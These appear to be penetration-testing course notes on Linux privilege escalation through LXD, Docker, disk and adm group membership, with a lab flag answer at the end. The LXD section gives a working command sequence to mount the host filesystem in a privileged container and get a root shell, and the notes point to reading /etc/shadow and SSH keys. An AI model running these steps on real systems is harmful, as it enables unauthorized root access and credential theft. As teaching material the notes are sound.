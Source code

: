 # Privileged Groups

## LXC / LXD

`LXD` -> similar to Docker

* Upon installation, all users are added to the LXD group.
* Membership of this group can be used to escalate privileges
  * **creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`.**

Confirm group membership and use these rights to escalate to root.

```shell-session
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the Alpine image.

```shell-session
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Import the local image.

```shell-session
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system.

```shell-session
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Spawn a shell inside the container instance. We can now browse the mounted host file system as root.

type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```shell-session
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

## Docker

* Placing user in Docker group is like placing them into root
* Members of the docker group can spawn new docker containers.
* `docker run -v /root:/mnt -it ubuntu`. This command create a new Docker instance with the /root directory on the host file system mounted as a volume.
* Once container starts  we can retrive or add SSH keys for the root user.
* It's not limited to root directory, we can mount /etc to obtain /etc/shadow file

## Disk

* Users in disk group have full access to any devices contained within `/dev`, such as `/dev/sda1` -> main device used by the operating system.
* Attacker with this privilege can use debugfs to access entire file system with root level privileges. We can use this to get SSH keys, credentials or add a user

### ADM

* ADM group can read all logs in /var/log.
* Can be leveraged to gather sensitive data stored in log files or enum user action and cron jobs

```shell-session
secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```

## Assessment

Use the privileged group rights of the secaudit user to locate a flag.

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption><p>ADM group</p></figcaption></figure>

```
secaudit@NIX02:/var/log$ grep -r -l 'flag' . 2>/dev/null
./installer/hardware-summary
./apache2/access.log
secaudit@NIX02:/var/log$ cat ./apache2/access.log | grep "flag"
10.10.14.3 - - [01/Sep/2020:05:34:22 +0200] "GET /flag%20=%20ch3ck_th0se_gr0uP_m3mb3erSh1Ps! HTTP/1.1" 301 409 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
10.10.14.3 - - [01/Sep/2020:05:34:22 +0200] "GET /flag%20=%20ch3ck_th0se_gr0uP_m3mb3erSh1Ps HTTP/1.1" 404 27847 "-" "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0"
```

